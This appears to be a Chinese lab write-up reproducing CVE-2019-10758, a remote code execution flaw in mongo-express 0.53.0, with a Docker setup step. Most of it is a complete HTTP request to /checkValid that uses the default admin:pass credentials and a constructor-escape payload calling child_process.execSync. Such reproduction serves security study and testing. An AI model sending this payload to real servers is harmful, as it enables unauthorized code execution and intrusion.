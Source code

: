 # mongo-express 远程代码执行漏洞（CVE-2019-10758）

mongo-express是一款mongodb的第三方Web界面，使用node和express开发。如果攻击者可以成功登录，或者目标服务器没有修改默认的账号密码（`admin:pass`），则可以执行任意node.js代码。

## 漏洞环境

执行如下命令启动一个0.53.0版本的mongo-express：

```bash
docker-compose up -d
```

环境启动后，访问`http://your-ip:8081`即可查看到Web页面。

## 漏洞复现

直接发送如下数据包，即可执行代码`this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`：

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

![](1.png)
